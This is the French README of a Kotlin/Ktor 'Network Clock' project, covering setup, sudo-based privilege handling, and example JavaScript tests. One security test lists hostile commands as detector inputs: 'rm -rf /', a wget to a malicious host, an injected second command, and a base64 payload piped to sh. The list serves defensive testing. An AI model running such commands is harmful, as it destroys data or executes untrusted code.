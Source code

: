 # Network Clock (NC) Project

## Présentation du Projet
Le projet Network Clock (NC) est une application permettant de visualiser et de régler la date et l'heure du système. L'application offre les fonctionnalités suivantes :

- Affichage de la date et de l'heure actuelles avec un format spécifié par l'utilisateur.
- Réglage de la date et de l'heure du système par l'utilisateur interactif.
- Serveur TCP permettant aux utilisateurs distants de demander la date et l'heure actuelles dans un format spécifié.

## Choix de la Technologie
Pour ce projet, Kotlin et Ktor ont été choisis pour le développement du serveur, tandis que l'interface utilisateur utilise HTML, CSS et JavaScript.

### Avantages de Kotlin et Ktor

#### Portabilité et Robustesse
- **Portabilité**: Kotlin est un langage de programmation moderne et multi-plateforme, ce qui permet une exécution cohérente sur différentes plateformes, y compris Debian.
- **Robustesse**: Grâce à son typage statique et à son système de gestion des exceptions, Kotlin minimise les erreurs à l'exécution et améliore la fiabilité de l'application.

#### Gestion des Threads et Concurrence
- **Gestion intégrée des threads**: Ktor offre une gestion des threads intégrée, essentielle pour gérer les connexions réseau simultanées et exécuter des tâches en parallèle.
- **Outils de concurrence bien documentés**: Les bibliothèques et outils de concurrence de Kotlin et Ktor facilitent le développement d'applications performantes et réactives.

#### Écosystème de Bibliothèques et Outils de Développement
- **Écosystème riche**: Kotlin dispose d'un riche écosystème de bibliothèques et de frameworks pour la création d'interfaces utilisateur graphiques et la communication réseau.
- **Environnements de développement intégrés (IDE)**: IntelliJ IDEA, Eclipse et autres offrent des outils puissants pour le développement, le débogage et la maintenance du code.

## Réponse aux Exigences du Projet

### Interface Utilisateur Graphique
L'interface utilisateur est créée à l'aide de HTML, CSS et JavaScript, et elle est hébergée sur le serveur Ktor. Elle permet à l'utilisateur interactif de visualiser la date et l'heure actuelles, de spécifier le format d'affichage, et de régler l'heure du système.

### Communication Réseau avec Ktor
Le package Ktor de Kotlin est utilisé pour implémenter le serveur TCP. Ce serveur écoute les connexions sur un port configurable, reçoit les demandes des utilisateurs distants, et renvoie la date et l'heure actuelles dans le format spécifié.

### Gestion des Privilèges avec ProcessBuilder et sudo
Pour régler l'heure du système, une séparation des privilèges est mise en œuvre. Un script bash exécuté avec des privilèges élevés est responsable de cette tâche. ProcessBuilder est utilisé pour exécuter des commandes système avec sudo, demandant à l'utilisateur les privilèges nécessaires pour régler l'heure.

### Configuration et Gestion des Fichiers
Les configurations, y compris le numéro de port TCP, sont stockées dans des fichiers de configuration accessibles en écriture par l'utilisateur, situés dans le répertoire `src/main/resources/config/`.

## Instructions pour Exécuter le Projet

### Prérequis
- Java Development Kit (JDK) installé
- Un environnement de développement intégré (IDE) comme IntelliJ IDEA ou Eclipse
- Un système Debian ou une distribution Linux similaire avec des permissions administratives (super-utilisateur) pour pouvoir exécuter des commandes nécessitant des privilèges élevés

### Étapes pour Exécuter le Projet

#### Cloner le Répertoire du Projet
```bash
git clone https://github.com/Oceane4973/Network_clock
cd Network_clock
```

## Configuration des Scripts
Le projet utilise des scripts bash pour gérer les privilèges et l'exécution.

### Exécution du Script `build-and-run.sh`
Ce script s'assure que les dépendances sont installées, construit le projet, et exécute l'application sous un nouvel utilisateur système dont les seuls privilèges élevés sont `date` et le script de changement d'heure dont le chemin est spécifié dans le fichier de configuration `app.properties`.
```bash
chmod +x build-and-run.sh
./build-and-run.sh
```

#### Détails du script `build-and-run.sh` :
1. **Vérification et récupération des propriétés** : Le script vérifie la présence du fichier de configuration et récupère les propriétés nécessaires comme le chemin du script et le nom d'utilisateur.
2. **Création de l'utilisateur** : Si l'utilisateur spécifié n'existe pas, il est créé avec un mot de passe généré.
3. **Copie et configuration du projet** : Le répertoire du projet est copié dans un répertoire temporaire, et les permissions sont ajustées pour que le nouvel utilisateur ait accès.
4. **Configuration de sudoers** : Le script ajoute une entrée dans sudoers pour permettre à l'utilisateur d'exécuter le script de changement d'heure et la commande `date` sans mot de passe.
5. **Construction, tests et exécution du projet** : Le script nettoie, installe les dépendances npm, construit, exécute les tests JavaScript et Kotlin du projet et lance le serveur Ktor en tant que le nouvel utilisateur système.

## Tests 
Le projet inclut plusieurs types de tests pour garantir la sécurité, la robustesse et la performance de l'application.

### Tests Javascript

#### Tests de Sécurité
Des tests sont effectués pour vérifier la résistance de l'application aux injections de commandes et autres attaques malveillantes.

```javascript
// Exemple de test de détection de commandes malveillantes
test('should detect malicious commands', () => {
    const maliciousCommands = [
        '<script>alert("hack")</script>',
        'rm -rf /',
        'wget http://malicious.com',
        'nc --set-time "yyyy-MM-dd HH:mm:ss" "2023-07-15 12:30:45" ; rm -rf /',
        'base64 -d <<< "dGVzdA==" | sh'
    ];

    maliciousCommands.forEach((command) => {
        expect(terminal.isMaliciousCommand(command)).toBe(true);
    });
});
```

#### Tests des Composants DOM
Les tests sur les composants DOM de l'application, tels que les éléments de l'horloge et le terminal, sont réalisés pour s'assurer de leur bon fonctionnement et de leur mise à jour correcte.

```javascript
// Exemple de test sur le composant horloge
test('should update the time and date elements', () => {
   const testDate = new Date(2023, 6, 15, 12, 30, 45); // 15 July 2023, 12:30:45
   clock.update(testDate);

   expect(clockElement.querySelector('.time').textContent).toBe('12:30:45');
   expect(clockElement.querySelector('.date').textContent).toBe('2023-07-15 SAT');
});
```

#### Tests d'Intégration
Les tests d'intégration vérifient que les différents modules de l'application fonctionnent correctement ensemble.

```javascript
// Exemple de test d'intégration
test('should display help message when nc --help is executed', () => {
    const promptElement = terminal.promptElement;
    promptElement.innerText = 'nc --help';
    const event = new KeyboardEvent('keydown', { key: 'Enter' });
    promptElement.dispatchEvent(event);

    const historyContent = document.querySelector('.history').textContent;
    expect(historyContent).toContain('Usage:');
    expect(historyContent).toContain('nc --help');
    expect(historyContent).toContain('nc --set-time');
});
```

#### Tests de Performance
Des tests de performance sont également réalisés pour s'assurer que les opérations critiques s'exécutent dans des délais acceptables.

```javascript
// Exemple de test de performance
test('update method should be performant', () => {
    const start = performance.now();
    clock.update(new Date());
    const end = performance.now();
    expect(end - start).toBeLessThan(50); // L'opération doit prendre moins de 50ms
});
```